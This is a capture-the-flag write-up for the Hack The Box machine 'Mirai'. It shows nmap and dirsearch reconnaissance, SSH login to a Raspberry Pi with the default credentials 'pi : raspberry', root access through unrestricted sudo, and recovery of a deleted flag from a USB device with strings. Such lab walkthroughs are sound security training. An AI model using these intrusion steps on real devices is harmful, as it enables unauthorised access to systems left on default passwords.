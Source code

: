 ## ---------------->> Mirai <<---------------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.48 -p-
-------

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 12:32 UTC
    Stats: 0:02:06 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 16.75% done; ETC: 12:45 (0:10:21 remaining)
    Stats: 0:05:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 43.08% done; ETC: 12:46 (0:07:38 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.35s latency).
    Not shown: 65529 closed ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
    |   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
    |   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
    |_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
    53/tcp    open  domain  dnsmasq 2.76
    | dns-nsid: 
    |_  bind.version: dnsmasq-2.76
    80/tcp    open  http    lighttpd 1.4.35
    |_http-server-header: lighttpd/1.4.35
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    1417/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
    32400/tcp open  http    Plex Media Server httpd
    | http-auth: 
    | HTTP/1.1 401 Unauthorized\x0D
    |_  Server returned status 401 but no WWW-Authenticate header.
    |_http-cors: HEAD GET POST PUT DELETE OPTIONS
    |_http-favicon: Plex
    |_http-title: Unauthorized
    32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Navigating to http://10.10.10.48/ give us blank page

// Lets try to search for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By Maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.48/ -t 150 -i 100-400
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Target: http://10.10.10.48/

    [13:19:46] Starting: 
    [13:20:06] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/

    Task Completed

// We found /admin/ directory

// Navigating to http://10.10.10.48/admin/ 

// We see a dashboard of Pi-Hole dns blocklist application for raspberry-pi devices.

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Mirai/1.png)

// Clicking on bottomm 'Login' >> 'Forgot password' , we can see that at first raspberry-pi get default credentials

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Mirai/2.png)

// And since we got SSH running lets try to connect with default raspberry-pi credentials: 'pi : raspberry'

    $ ssh pi@10.10.10.48
-------

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Aug 27 14:47:50 2017 from localhost

    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

    pi@raspberrypi:~ $ id
    uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
    pi@raspberrypi:~ $ 

// We got connected !!

// And user flag !

    pi@raspberrypi:~/Desktop $ cat user.txt
    ff83770..........................



### ------Privilleges Escelation------

// Gain root

    $ sudo -l
    Matching Defaults entries for pi on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User pi may run the following commands on localhost:
        (ALL : ALL) ALL
        (ALL) NOPASSWD: ALL
    pi@raspberrypi:~/Desktop $ sudo -i

    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

    root@raspberrypi:~# 

// Was easy isnt it, we have sudo permissions

// When try to see the flag we got some text in the file instead

    root@raspberrypi:~# cat /root/root.txt 
    I lost my original root.txt! I think I may have a backup on my USB stick...
    
// So the flag is on the USB stick

// Lets run 'df' command to see the all connected file systems

    root@raspberrypi:# df
    Filesystem     1K-blocks    Used Available Use% Mounted on
    aufs             8856504 2834172   5549400  34% /
    tmpfs             102396    4868     97528   5% /run
    /dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
    /dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
    tmpfs             255988       0    255988   0% /lib/live/mount/overlay
    /dev/sda2        8856504 2834172   5549400  34% /lib/live/mount/persistence/sda2
    devtmpfs           10240       0     10240   0% /dev
    tmpfs             255988       8    255980   1% /dev/shm
    tmpfs               5120       4      5116   1% /run/lock
    tmpfs             255988       0    255988   0% /sys/fs/cgroup
    tmpfs             255988       8    255980   1% /tmp
    /dev/sdb            8887      93      8078   2% /media/usbstick
    tmpfs              51200       0     51200   0% /run/user/999
    tmpfs              51200       0     51200   0% /run/user/1000

// We can see there /media/usbstick

// Lets check what inside

    root@raspberrypi:# ls /media/usbstick/
    damnit.txt  lost+found
    
------

    root@raspberrypi:# cat /media/usbstick/damnit.txt 
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?

    -James
    
// seems that the flag rased by james. lets try to find him with 'strings' command on /dev/sdb

    root@raspberrypi:# strings /dev/sdb
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    /media/usbstick
    2]8^
    lost+found
    root.txt
    damnit.txt
    >r &
    3d3e483143.................
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?
    -James

--------

// We found root flag !

    3d3e483143................
